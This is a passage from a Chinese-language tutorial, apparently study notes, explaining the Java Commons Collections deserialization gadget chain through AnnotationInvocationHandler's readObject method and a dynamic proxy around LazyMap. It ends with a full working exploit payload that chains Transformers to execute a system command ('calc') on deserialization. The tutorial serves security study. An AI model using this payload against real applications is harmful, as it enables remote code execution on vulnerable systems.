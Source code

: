 这里 `memberValues` 对应上面的

**五.  `readObject` 方法, 利用链反序列化入口点(重要)**

因为入口点在 `sun.reflect.annotation.AnnotationInvocationHandler#readObject`  

该入口点会在反序列化的时候重写 `readObject` 方法

```java
private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
        Map var3 = var2.memberTypes();
        //获取LazyMap父类的entrySet
        Iterator var4 = this.memberValues.entrySet().iterator(); //遍历key-value
        while(var4.hasNext()) {
            //代理对象调用方法
            Entry var5 = (Entry)var4.next();
            String var6 = (String)var5.getKey();
            Class var7 = (Class)var3.get(var6);
            if (var7 != null) {
                Object var8 = var5.getValue();
                if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {
                    var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));
                }
            }
        }
    }
```

这里 `this.memberValues` 的值就是动态代理对象 `proxyMap`  

所以当反序列化执行, 动态代理就会调用代理对象(即: 在 readObject() 方法中,调用了 memberValues 的方法,这个 memberValues 就是动态代理对象. 好像是重复的话 但理解是这样的)

## payload

这个网上都有, 参考其中一个:

```java
Transformer[] transformers = new Transformer[]{
new ConstantTransformer(Runtime.class),
new InvokerTransformer("getMethod",new Class[]{String.class,Class[].class},new Object[]{"getRuntime",null}),
new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,null}),
new InvokerTransformer("exec",new Class[]{String.class},new Object []{"calc"})
};
ChainedTransformer chainedtransformer = new ChainedTransformer(transformers);
Map innerMap = new HashMap();
Map outerMap = LazyMap.decorate(innerMap,chainedtransformer);
Class clazz = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
Constructor constructor = clazz.getDeclaredConstructor(Class.class,Map.class);
constructor.setAccessible(true);
InvocationHandler handler = (InvocationHandler) constructor.newInstance(Override.class,outerMap);
Map proxyMap = (Map)Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},handler);
Object o = (Object) constructor.newInstance(Override.class,proxyMap);
serialize(o);
unserialize();
```
